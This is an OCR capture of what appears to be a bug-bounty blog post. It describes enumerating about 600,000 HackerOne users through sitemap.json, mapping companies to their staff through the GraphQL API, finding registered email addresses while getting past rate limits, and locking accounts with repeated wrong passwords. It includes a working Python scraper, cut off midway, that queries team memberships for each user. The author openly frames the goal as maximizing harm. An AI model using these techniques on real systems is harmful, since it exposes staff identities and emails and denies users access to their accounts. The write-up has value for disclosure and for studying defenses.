 ```yaml
---
layout: post
title: Enum H1 Staff and Users email addresses and Lock accounts
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

I found https://hackerone.com/sitemap.json a few months ago, but saw that only users starting withawere returned, but later I found out that it can be accessed via the parameter `first` Enumerate all users:

```
https://hackerone.com/sitemap.json?first=[a-z]
```

After I got the id of nearly 600,000 users, thinking about how to use this data to maximize the harm?

So I thought of three ideas:

1. By requesting the `graphql` interface, query the team that each user belongs to. Reverse this result into: List of companies-> Staff. (Unrestricted)
2. Merge all common email addresses with ids, and enumerate whether the email addresses exists in the registration interface. (Limited, but can be bypassed with more IPv6)
3. Finally, you can use the blasted email addresses to log-in to the interface and request more than 100+ wrong passwords to lock your account. XD

## 0x01 Company -> Staff:

```
#!/usr/bin/env python
#coding:utf-8

import os
import time
import json
import string
import requests

def main(name):
    print name
    datas = {"operationName":"getTeams","variables":{"username":"{}".format(name)},"query":"query getTeams($username: String!) {\n  user(username: $username) {\n    memberships(first: 10, where: {concealed: {_eq: false}}) {\n      total_count\n      edges {\n        node {\n          id\n          team {\n            id\n            name\n            handle\n            state\n            profile_picture(size: small)\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

    headers={
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
        "content-type": "application/json",
        "x-auth-token": "----",
        "Connection": "close"
    }
    try:
        r = requests.post("https://hackerone.com/graphql",headers=headers , data=json.dumps(datas), timeout=5)
        ret = json.loads(r.content)['data']['user']['memberships']
        if isinstance(ret['total_count'],int):
            f = open("done.txt",'a')
            f.write(name + '\n')
```